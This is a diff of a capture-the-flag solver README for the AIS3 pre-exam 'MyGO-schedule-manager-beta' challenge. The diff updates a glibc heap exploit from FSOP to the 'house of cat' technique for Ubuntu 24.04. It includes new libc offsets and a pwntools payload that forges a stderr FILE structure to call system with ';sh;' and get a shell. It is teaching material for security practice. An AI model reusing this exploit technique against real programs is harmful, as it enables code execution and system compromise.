

Before and after one commit to Naupjjin/2025-AIS3-pre-exam-challenge, a Markdown page: MyGO-schedule-manager-beta/solver/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/MyGO-schedule-manager-beta/solver/README.md
+++ b/MyGO-schedule-manager-beta/solver/README.md
@@ -87,7 +87,8 @@ When you read C++ source code, new allocate chunk didn't clear its chunk memory.
 And it check index by capacity, so we can access this fake pointer(If we don't have UAF, when you add new schedule, your fake pointer will be overwritten).
 OK, So we will get arbitrary write on libc (std::string).
 
-We write FSOP on stderr. And when this binary exit, We will get shell.
+We use house of cat (FSOP) and overwrite stderr. And when this binary exit, We will get shell.
+PS: patch libc let you can success exploit on glibc 24.04
 
 If you don't understand, go to read my script.
 
@@ -171,11 +172,12 @@ delete(0)
 
 show(0)
 r.recvuntil(b'] is ')
-leaklibc = u64(r.recvline().strip()[:6].ljust(8,b'\x00'))
-libcbase = leaklibc - 0x21ace0
+leaklibc = (u64(r.recvline().strip()[:6].ljust(8,b'\x00')) << 8 ) + 0x20
+libcbase = leaklibc - 0x203b20
 
-IO_STDERR = libcbase + 0x21b6a0
-libc_system = libcbase + 0x50d70
+
+IO_STDERR = libcbase + 0x2044e0
+libc_system = libcbase + 0x58740
 
 payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
 payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
@@ -189,10 +191,34 @@ add(b'Tomorin')
 add(b'Soyorin')
 add(b'Rana')
 
-payload2 =  p32(0xfbad0101) + b";sh\x00" + b'\x00' * (0x50) + p64(libc_system) + b'\x00' * (0x28) + p64(IO_STDERR - 0x10) + b'\x00' * (0x10) + p64(IO_STDERR - 0x10) + b'\x00' * 0x18 + p32(1) + b'\x00' * (0xc) + p64(IO_STDERR - 0x10) + p64(libcbase + 0x217078)
+libc_IO_wfile_jumps = libcbase + 0x202228
+emptylibc = libcbase + 0x204bc0
+fakew_data = IO_STDERR
+fake_wow = IO_STDERR + 0x18
+
+payload2  = b"\xd0\x06;sh;".ljust(8, b"\x00") # _flags
+
+payload2  = payload2.ljust(0x20, b"\x00")
+payload2 += p64(1)
+payload2  = payload2.ljust(0x30, b"\x00")
+payload2 += p64(libc_system)
+payload2  = payload2.ljust(0x70, b"\x00")
+payload2 += p32(2)
+payload2  = payload2.ljust(0x78, b"\x00")
+payload2 += p64(0xffffffffffffffff)
+payload2  = payload2.ljust(0x88, b"\x00")
+payload2 += p64(emptylibc) + p64(0xffffffffffffffff)
+payload2  = payload2.ljust(0xa0, b"\x00")
+payload2 += p64(fakew_data)
+payload2  = payload2.ljust(0xc0, b"\x00")
+payload2 += p32(1)
+payload2  = payload2.ljust(0xd8, b"\x00")
+payload2 += p64(libc_IO_wfile_jumps + 0x30) + p64(fake_wow)
 
 edit(3, payload2)
-exitf()
+
+
+sl(b"5")
 
 NAUPINFO("LEAKLIBC", hex(leaklibc))
 NAUPINFO("LIBCBASE", hex(libcbase))
```
